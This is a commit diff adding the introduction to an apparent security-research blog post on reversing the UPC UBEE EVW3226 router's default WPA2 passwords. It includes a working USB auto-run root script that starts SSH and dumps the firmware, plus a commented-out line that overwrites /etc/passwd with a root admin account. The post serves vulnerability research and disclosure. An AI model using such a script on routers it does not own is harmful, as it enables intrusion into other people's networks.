

Before and after one commit to yolosec/deadcodeBlog, a Jekyll site: the page built from _posts/2016-06-14-UPC-UBEE-EVW3226-WPA2-RExing.markdown, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
ubee: introduction

````diff
--- a/_posts/2016-06-14-UPC-UBEE-EVW3226-WPA2-RExing.markdown
+++ b/_posts/2016-06-14-UPC-UBEE-EVW3226-WPA2-RExing.markdown
@@ -6,6 +6,72 @@ categories: router reversing hacking
 
 ---
 
+# Introduction
 
+This work was motivated by the work of [Blasty](https://twitter.com/bl4sty).
+Several months ago he published the algorithm ( [upc_keys.c](https://haxx.in/upc-wifi/) ) generating candidate default
+WPA2 passwords for UPC WiFi routers using just SSID of the router. Vulnerable routers used just router ID to generate
+default WiFi password and WiFi SSID. Algorithm goes through all possible router serial IDs and if SSID matches,
+it prints out candidate WiFi password (cca 20).
 
-Test
+To our surprise it worked pretty well in our city, where 6 out of 10 UPC WiFi around were vulnerable. But it didn’t
+work for newer router models and for my own. So we decide to look at this particular model if we were lucky to find
+the same vulnerability in it.
+
+Our modem is UBEE EVW3226. As I don’t want to experiment on my own home router I bought one from the guy selling
+exactly the same model. There are guys who managed to get root access to the router by connecting to the UART
+interface of the router. I recommend going through this article: <https://www.freeture.ch/?p=766>
+
+Lucky for us, we didn’t have to mess with the UART interface of the router even though I was looking forward to it.
+Just a day before I bought my UBEE router for experiments, Firefart [published an article](https://firefart.at/post/upc_ubee_fail/)
+how to get a root on the router just by inserting a USB drive with simple scripts.
+
+Tl;dr: If USB drive has name `EVW3226`, shell script
+`.auto` on it gets executed with system privileges. With this script you start SSH server, you connect
+to the router and have the root.
+
+With this I managed to dump the whole firmware on the mounted USB drive.
+The script we use to start SSH daemon and to dump the firmware is below:
+
+```bash
+#!/bin/bash
+if [ ! -e /etc/passwd.1 ]; then
+	cp /etc/passwd /etc/passwd.1
+
+    # This works!
+    #echo "admin:FvTuBQSax2MqI:0:0:admin,,,:/:/bin/sh" > /etc/passwd
+    dropbear -r /var/tmp/disk/dropbear_rsa_host_key -p 192.168.0.1:22
+
+    # Dump router to the drive
+    WHERE=/var/tmp/disk/HOMEROUTER
+    mkdir -p ${WHERE}
+    tar -cvpf ${WHERE}/router-image-root.tar -X/var/tmp/disk/tar-exclude /
+    sync
+
+    for i in 0 1 2 3 4 5 6 7 8 9 10; do echo "CurDisk: mtdblock$i"; dd if="/dev/mtdblock${i}"\
+           of="${WHERE}/fw-${i}.bin" bs=1 conv=noerror; done
+   for i in 0 1 2 3 4 5 6 7 8 9 10; do echo "CurDisk: mtd$i"; dd if="/dev/mtd${i}" \
+           of="${WHERE}/fw-${i}b.bin" bs=1 conv=noerror; done
+   sync
+
+    DDIR=`pwd`
+    WHERE=/var/tmp/media/0AAA-0E65/HOMEROUTER
+    cd /
+	mkdir -p $WHERE
+	find /proc -type f | grep -v '/sys/' | grep -v '/net/' | grep -v '/kmsg' | \
+       while read F ; do
+   		D=${WHERE}/${F%/*}
+   		echo "D: $D  F: $F WHERE: ${WHERE}$F"
+   		test -d "$D" || mkdir -p $D && echo "DIR: $D"
+   		test -f "${WHERE}$F" || cat $F > ${WHERE}$F
+	done
+	cd "$DDIR"
+fi
+```
+
+This is actually very powerful and convenient attack vector. One comes with USB drive to the router, plugs it in and has a WPA2 password in seconds.
+
+I’ve created a TAR of the whole filesystem plus raw binary images of the mounted file system.
+With SSH I could start mess around the router firmware.
+
+Firstly, the quick review of mounted file systems:
````
